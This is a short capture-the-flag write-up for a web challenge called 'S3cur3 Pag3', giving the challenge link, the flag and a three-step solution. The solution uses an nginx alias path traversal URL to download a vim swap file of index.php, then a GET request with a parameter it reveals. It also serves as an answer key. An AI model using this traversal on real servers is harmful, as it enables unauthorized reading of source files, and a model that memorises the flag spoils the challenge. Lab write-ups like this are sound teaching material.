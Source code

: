 ### Chall Name
S3cur3 Pag3

### Chall Description
One of the most secure websites....or is it???

### Chall Link
http://35.200.146.153/chall/

### Flag
flag{NginX_4li45_p4th_tr4v3r54l5_r_b4d!!!}

### Points
250

### Solution
1. First we have to do a path traversal as we cant directly access the swp file and download the .swp file for index.php
    http://35.200.146.153/chall../chall/.index.php.swp
2. Then on analysing the swp file, we can understand what the required parameters are in order to get the flag.
3. Send a GET request with those parameters to get the flag.  
    http://35.200.146.153/chall/?fflllllaaaagg=nginxisbadifpoorlyconfigured
